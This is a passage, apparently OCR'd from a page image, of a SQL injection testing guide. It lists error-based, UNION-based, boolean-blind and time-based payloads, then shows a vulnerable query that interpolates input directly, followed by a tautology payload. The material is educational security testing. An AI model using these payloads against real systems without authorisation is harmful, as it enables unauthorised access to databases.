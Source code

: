     ```
    
    If the database error message is returned, it could indicate that SQL injection is possible.
    
2. **Union-Based SQL Injection**
Attempt to inject a `UNION` query to retrieve data from another table:
    
    ```
    ' UNION SELECT null, database(), user()--
    
    ```
    
    This payload checks if you can retrieve the database name and current user.
    
3. **Boolean-Based Blind SQL Injection**
Alter the query with conditional logic:
    
    ```
    ' OR 1=1--
    
    ```
    
    If the response indicates a positive outcome (e.g., login success or data being shown), this suggests SQL injection is possible.
    
4. **Time-Based Blind SQL Injection**
Introduce time delays into the query:
    
    ```
    ' OR IF(1=1, SLEEP(5), 0)--
    
    ```
    
    If the page takes longer to load, it indicates the injection was successful.
    

---

### Detailed Attack Scenarios:

### 1. **Classic Error-Based SQL Injection**

If a web application displays detailed error messages, this could reveal database structures. These error messages often contain SQL query syntax errors, providing the attacker with valuable information for further exploitation.

**Example:**

The input is passed directly into the SQL query:

```sql
SELECT * FROM products WHERE id = '$id';

```

Payload:

```
1' OR '1' = '1

```

